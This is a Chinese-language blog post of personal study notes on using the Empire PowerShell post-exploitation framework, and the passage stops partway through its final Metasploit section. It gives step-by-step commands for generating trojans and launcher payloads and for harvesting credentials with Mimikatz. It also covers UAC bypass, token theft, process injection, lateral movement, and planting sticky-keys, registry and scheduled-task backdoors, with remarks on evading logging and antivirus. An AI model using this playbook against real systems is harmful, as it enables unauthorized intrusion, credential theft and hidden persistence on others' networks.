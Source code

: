 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      empire学习              # 标题 
subtitle:   回顾整理一下之前的学习笔记
date:       2020-03-31              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```



## 0x00：empire利用思路：
> Empire是一个PowerShell后期漏洞利用代理工具同时也是一款很强大的后渗透测神器，它建立在密码学、安全通信和灵活的架构之上。Empire实现了无需powershell.exe就可运行PowerShell代理的功能。快速部署后期漏洞利用模块，从键盘记录器到Mimikatz，并且能够适应通信躲避网络检测，所有的这些功能都封装在一个以实用性为重点的框架中

**一、安装：**  
> 在github上面有对应的项目直接git clone下来然后进入empire/setup/,运行install.sh即可完成安装

**二、设置监听**  
输入listeners进入监听线程界面，可以输入help命令查看帮助文件    
接着输入uselistener来设置采用何种模式，此刻双击tab键可以看到七种模式。  
选择模式后，输入info查看具体参数设置、然后输入execute命令即可开始监听。  
拓展：输入back返回上一层listeners界面，然后输入list命令查看当前激活的listener，可以使用kill命令删除该监听。  
在listeners界面输入agents即可查看到监听上线的机器  
**三、生成木马**  
输入usestager进入木马生成模块，双击tab进行模块查看，  
输入usestager windows/dll即可使用该模块，输入info设置参数  
①生成木马文件：  
直接execute即可生成木马文件  
②生成powershell代码  
back返回listeners模块，输入launcher powershell shuteer即可生成payload，复制到目标powershell上执行即可。  
**四、连接主机及其基本使用**  
> 返回listeners模块之后利用agents命令列出当前已连接的主机，带*号的为已提权成功的主机，接着使用interact <name>即可连接主机。连接之后的命令和metasploit的部分常用命令兼容，可利用help查看命令

> 利用mimikatz时可以输入creds过滤整理用户密码，双击tab键可以 查看选项。

由于在实际渗透中，有部分主机会过期，在agents界面输入 list stale以及remove stale即可处理完毕。  

**五、利用empire进行信息收集**  
Usemodule collection/然后双击tab显示选项，选择后输入info查看具体参数。  
arp扫描： usemodule situational_awareness/network/arpscan，然后设置range模块、  
即可扫描网段  
dns信息获取：usemodule situational_awareness/network/reverse_dns设置range然后运行。还可以利用usemodelu situational_awareness/host/dnsserver显示当前内网dns服务器的ip地址  
**六、查找域管登陆服务器ip**  
基本思路找到域管登陆的机器，然后横向渗透进去，窃取域管权限，从而拿下整个域。  
使用usemodule situational_awareness/network/powerview/user_hunter查看哪位用户登陆了哪台主机。  
然后使用本地管理组访问模块查看本地管理组成员：usemodule situational_awareness/network/powerview/find_localadmin_access  
接下来获取域控制器  
由于拥有域用户权限，直接使用usemodule situational_awareness/network/powerview/get_domain_controller来获取当前的域控制器，使用shell命令尝试验证：shell dir \\DC\c$  
**七、权限提升**  
提权方式：
- ①输入usemodule privesc/bypassuac,设置listener参数，
- ②使用内置powerup模块 usemodule privesc/powerup/双击tab查看模块列表选择模块执行。
- ③GPP：在域里常会骑勇组策略首选项来更改本地密码，便于管理的部署映像，任何普通域用户都可以从相关域控制器的SYSVOL中读取部署信息，输入:usemodule privesc/gpp即可查看

**八、横向渗透：**
- 1、令牌窃取：利用内置的mimikatz获取系统密码，执行完后输入creds即可查看列举的密码、
如果域用户曾在此服务器上登录，则可以窃取域用户身份，然后进行横向移动，首先窃取身份，使用pth <ID>命令，ID号为creds下的CREDID号；接下来可查看到PID进程号，使用steal_token PID命令窃取该身份令牌。同样可以输入ps查看域用户进程，然后使用steal_token 命令来窃取这个令牌。恢复令牌权限时可用命令 revtoself
- 2、会话注入：使用usemodule management/psinject模块进行进程注入，获取权限。
我们需要设置listener和Proc ID这两个参数。运行后反弹回一个域用户权限shell。
- 3、invoke-PsExec:
该工具能被基本的杀毒软件检测到并留下日志，还需要开启admin$445端口共享，其优点是可以直接返回system权限，使用该模块的前提是已经获得本地管理员权限，甚至是域管理员账户，然后以此进一步持续渗透整个内网。
Usemodule lateral_movement/invoke_psexec
Set computername xxxxxxx
Set listener shuteer
- 4、invoke-WMI
可以做到无日志攻击，同时攻击脚本无需写入磁盘，具有极高的隐蔽性，但是如果开启防火墙，用WMI无法连接上目标机器。
同样需要设置监听以及主机名
Usemodule lateral_movement/invoke_wmi
- 5、powershell remoting
需要开启windows远程管理服务winrm系统监听5985端口。如果目标主机启用或者拥有启用它的权限的凭据，则可以使用模块
Usemodule lateral_movement/invoke_psremoting
设置主机名以及监听等待返回

**九、后门**  
1、权限持久性劫持shift后门  
输入usemodule lateral_movement/invoke_wmi_debuggerinfo命令即可使用该模块  
输入info查看具体的设置参数  
Set Listener shuteer  
Set ComputerName xxxxxx  
Set TargetBinary sethc.exe  
运行后在目标主机按五次shift即可触发后门  
其中sethc.exe可替换成一下几项:  
Utilman.exe（使用win+u组合键启动）  
Osk.exe（屏幕上的键盘：使用win+u）  
Narrator.exe（启动讲述人：使用win+U启动组合键）  
Magnify.exe（放大镜：使用win+u启动组合键）  
2、注册表注入后门  
Usemodule persistence/userland/registry模块：  
Set Listener shuteer  
Set RegPath HKCU: Software\Microsoft\Windows\CurrentVersion\Run  
当我们登陆系统时木马就会运行，服务端反弹成功  
3、计划任务获得系统权限  
Usemodule persistence/elevated/schtasks设置DailyTime、listener两个参数即可，实际渗透中，会被杀毒软件提示。  
在实施计划任务获取权限时，可以加入注册表后门。  
**十、empire反弹回metasploit**  
当绕过msf客服端无法绕过目标主机的杀毒软件时，可以用powershell或者empire的payload绕过，成功之后使用empire的模块将其反弹回metasploit  
Usemodule code_execution/invoke_shellCode模块修改两个参数lhost和lport  
在msf中如下设置：  
